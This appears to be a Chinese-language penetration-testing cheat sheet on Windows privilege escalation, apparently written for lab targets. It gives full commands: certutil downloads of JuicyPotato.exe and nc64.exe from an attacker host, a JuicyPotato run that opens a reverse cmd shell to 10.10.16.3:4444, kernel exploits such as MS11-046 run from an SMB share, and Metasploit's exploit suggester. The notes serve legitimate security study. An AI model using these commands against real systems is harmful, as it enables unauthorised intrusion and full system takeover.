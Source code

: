 



- windows 提权阶段，可用 [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 来枚举内核漏洞，`systeminfo` 命令

  ```bash
  python2 windows-exploit-suggester.py --update
  python2 -m pip install xlrd==1.2.0 -i https://pypi.tuna.tsinghua.edu.cn/simple
  python2 windows-exploit-suggester.py  --database 2023-09-10-mssb.xls --systeminfo systeminfo.txt
  ```

- 内核提权 时，查看网站 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md)   [LOLBAS (lolbas-project.github.io)](https://lolbas-project.github.io/)

  例子：`JuicyPotato` 的利用，`whoami /priv`

  靶机下载 `kali` 里的 `JuicyPotato.exe`

  ```
  certutil.exe -urlcache -split -f http://10.10.16.3:5555/JuicyPotato.exe JuicyPotato.exe
  certutil.exe -urlcache -split -f http://10.10.16.3:5555/nc64.exe nc64.exe
  ```

  靶机执行

  ```
  C:\inetpub\drupal-7.54\JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c C:\inetpub\drupal-7.54\nc64.exe -e cmd 10.10.16.3 4444"
  ```

  kali 监听

  ```
  nc -lvnp 
  ```


- 一个 win 漏洞提权枚举 脚本 [Watson](https://github.com/rasta-mouse/Watson)

  可以在kali开启 smb 共享运行

  ```
  \\10.10.16.5\share\Watson.exe
  ```

  一个漏洞库 https://github.com/abatchy17/WindowsExploits

  例子：开启 smb 共享运行 [MS11-046](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe)

  ```
  \\10.10.16.5\share\MS11-046.exe
  ```


- 提权时也可 msf 枚举

  ```
  msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
  msf6 post(multi/recon/local_exploit_suggester) > set session 1
  session => 1
  msf6 post(multi/recon/local_exploit_suggester) > run
  ```
